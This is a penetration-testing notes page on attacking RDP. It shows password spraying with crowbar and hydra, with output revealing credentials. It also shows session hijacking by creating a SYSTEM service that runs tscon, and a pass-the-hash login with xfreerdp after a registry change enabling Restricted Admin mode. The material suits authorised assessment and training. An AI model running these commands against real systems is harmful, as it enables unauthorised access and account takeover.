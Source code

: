 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# RDP

## Misconfigurations

### Weak Authentication Configuration

RDP uses traditional user authentication, meaning that brute-forcing methods are a common attack vector.&#x20;

{% hint style="info" %}
Although it is _very_ unlikely, it is possible to find an RDP service without a password if there has been a misconfiguration.
{% endhint %}

In most cases, RDP will be configured to lock or disable a users account after a certain number of failed login attempts. In these cases, performing password spraying - rather than traditional brute-forcing techniques - will be the best method if there are no known credentials.

## Brute-Forcing

### Password Spraying Using Crowbar

Using the [crowbar.md](../../tooling/crowbar.md "mention") tool, password spraying can be attempted against the RDP service.

```bash
clue@machine[~]$ crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```

### Password Spraying Using Hydra

[hydra.md](../../tooling/hydra.md "mention") can also be used for password spraying.

```bash
clue@machine[~]$ hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-25 21:44:52
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
[DATA] attacking rdp://192.168.2.147:3389/
[3389][rdp] host: 192.168.2.143   login: administrator   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-25 21:44:56
```

## RDP Session Hijacking

If an attacker gains access to a machine _and an account with **local administrator privileges**_, they may be able to perform RDP Session Hijacking. If a user connects via RDP to the compromised machine, the users remote desktop session can be hijacked, allowing the attacker to escalate privileges and impersonate the account.

> In the below example, the attacker is using the local 'juurena' account and will be hijacking the 'lewen' account.

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

To impersonate a user, the attacker needs to gain **SYSTEM** privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session.&#x20;

It works by specifying which `SESSION ID` (`4` for the `lewen` session in our example) we would like to connect to which session name (`rdp-tcp#13`, which is our current session). So, for example, the following command will open a new console as the specified `SESSION_ID` within our current RDP session:

```powershell
C:\> tscon [TARGET_SESSION_ID] /dest:[OUR_SESSION_NAME]
```

If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as [psexec.md](../../tooling/psexec.md "mention") or [mimikatz.md](../../tooling/mimikatz.md "mention"). A simple trick is to create a Windows service that, by default, will run as Local System and will execute any binary with SYSTEM privileges.

We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute. Once we run the following command, a service named `sessionhijack` will be created.

```powershell
C:\> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

To run the command, we can start the `sessionhijack` service :

```powershell
C:\> net start sessionhijack
```

Once the service is started, a new terminal with the `lewen` user session will appear. With this new account, we can attempt to discover what kind of privileges it has on the network, and maybe we'll get lucky, and the user is a member of the Help Desk group with admin rights to many hosts or even a Domain Admin.

## Pass-the-Hash

Perform an RDP PtH attack to gain GUI access to the target system using tools like [xfreerdp.md](../../tooling/xfreerdp.md "mention").

**Restricted Admin Mode**, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:\


<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**Adding the DisableRestrictedAdmin Registry Key**

```cmd-session
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access:

```bash
clue@machine[~]$ xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state            
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr                                   
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd                                  
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr                                 
[09:24:11:427] [1668:1669] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized                               
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state        
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - CN = dc-01.superstore.xyz                                                     
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - VERSION ={                                                              
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMajorVersion: 6                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMinorVersion: 1                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductBuild: 7601                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        Reserved: 0x000000                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        NTLMRevisionCurrent: 0x0F                                        
[09:24:11:567] [1668:1669] [INFO][com.winpr.sspi.NTLM] - negotiateFlags "0xE2898235"

<SNIP>

```

If it works, we'll now be logged in via RDP as the target user without knowing their cleartext password.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Keep in mind that this will not work against every Windows system we encounter, but it is always worth trying in a situation where we have an NTLM hash, know the user has RDP rights against a machine or set of machines, and GUI access would benefit us in some ways towards fulfilling the goal of our assessment.
